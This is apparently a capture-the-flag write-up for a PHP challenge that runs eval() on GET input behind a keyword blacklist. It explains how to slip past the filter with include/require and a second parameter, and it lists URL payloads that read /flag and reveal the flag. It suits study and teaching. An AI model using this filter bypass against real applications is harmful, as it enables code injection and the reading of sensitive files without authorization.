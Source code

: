 ```php
$cmd = $_GET['cmd'];

if(isset($cmd)){
    if(!preg_match("/echo|flag|system|php|cat|shell|\.| |\'|\`|\;|\(/i", $cmd)){
        eval($cmd);
    }
    
}else{
    highlight_file(__FILE__);
}

// $flag = "/flag";
```

1- to bypass `space` and `parentheses` filter we need to use functions that does not require parentheses (i.e: print, include, require ...)

2- to bypass `flag` filter we need to add second argument, as we can see `$` and `_` chars are allowed for `$_GET, $_REQUEST` use. (in all cases we need a dollar sign to declare that we end our func name and we are reading data from a var)

3- to bypass `semicolon` filter we gonna need the php close tag `?>` to end the script.

payload :

`http://18.192.38.21:3333/?cmd=include$_GET[0]?>&0=/flag`

`http://18.192.38.21:3333/?cmd=require$_GET[0]?>&0=/flag`

`http://18.192.38.21:3333/?cmd=require_once$_GET[0]?>&0=/flag`

__FLAG{EZZ_PHP_C0DE_BYP@SS}__